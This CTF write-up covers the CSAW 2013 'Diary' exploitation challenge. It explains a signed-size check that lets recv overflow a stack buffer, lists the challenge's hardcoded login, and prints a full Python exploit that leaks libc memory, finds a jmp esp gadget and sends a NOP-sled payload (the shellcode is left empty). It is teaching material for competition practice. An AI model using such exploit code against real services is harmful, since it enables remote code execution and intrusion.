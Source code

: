 ```yaml
---
layout: post
ctf: "CSAW CTF 2013"
title:  "Exploit 300 (CSAW Diary)"
---
```


This challenge is a diary server listening on port 34266. When we first connect it prompt us to enter a password and an username. Both value are hardcoded in the application and can be retrieved through reverse engineering. Username is `csaw2013` and password is `S1mplePWD`.

Once we are logged we are prompt to enter a new entry into the diary. We first enter the size of the entry text message and then we enter the entry content.

The exploit is that the size we send first is then used by `recv` to read our entry into a fixed sized buffer of `0x400` bytes. Note that there is a check to see if the size we provided is below `0x400`, but giving a 2 bytes negative number such a `0xFFFF` would pass the test, but still read `0xFFFF` bytes of data, allowing us to smash the stack and overwrite the return adresse.

Since there were no `jmp esp` instruction in the program, I scanned the libc to find an adresse we could return to that would then jump on the shellcode in the buffer. The exploit script used is:

```python

#!/usr/bin/env python

import socket
import sys
import struct
from struct import pack

host = '128.238.66.217'
port = 34266

shellcode = ''

user = 'csaw2013'
pwd = 'S1mplePWD'

def read_until(s, a):
  data = ''
  while data.find(a) == -1:
    data = s.recv(4096)

def connect_to_host():

  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((host, port))

  read_until(s,'UserName')
  s.send(user)
  read_until(s,'Password')
  s.send(pwd)
  read_until(s,'Entry')
  s.send(str(0xFFFF))

  return s

ret_off = 0x420
def exploit(offset):

  s = connect_to_host()
  print 'connected'
  payload = ('\x55' * ret_off) + pack("I", offset) + '\x90'*32 + shellcode
  s.send(payload)
  print 'payload sent'
  s.close()

def leak(offset, size):

  s = connect_to_host()
  off_send = pack("I", 0x080488B0)

  payload = ('\x55' * ret_off) + off_send

  payload += pack('<I', 0x080487a0) # exit
  payload += pack('<I', 0x4) # fd
  payload += pack('<I', offset)
  payload += pack('<I', size) # len
  payload += pack('<I', 0x40) # flags

  payload += '\x90'*32 + shellcode

  s.send(payload)

  result = ''
  data = True

  while data:
    data = s.recv(1024)
    result += data
  s.close()

  return result

def find_jmp_esp():
  gots = leak(0x0804af80, 4)  # The offset of the got entries.
  print 'gots: %s' % repr(gots)

  libc_guess = struct.unpack('I', gots[:4])[0]
  print 'libc_guess: %s' % hex(libc_guess)

  buf_base = libc_guess - (libc_guess % 0x1000)

  buf = leak(buf_base, 4096)
  while buf:
    print hex(buf_base)
    jmp_esp = buf.find("\xff\xe4")  # jmp esp
    if jmp_esp != -1:
      return buf_base + jmp_esp
    else:
      buf_base += len(buf)
      buf = leak(buf_base, 4096)

  return 0

jmpesp_addr = find_jmp_esp()
print 'jmpesp_addr: ', hex(jmpesp_addr)
exploit(jmpesp_addr)

```
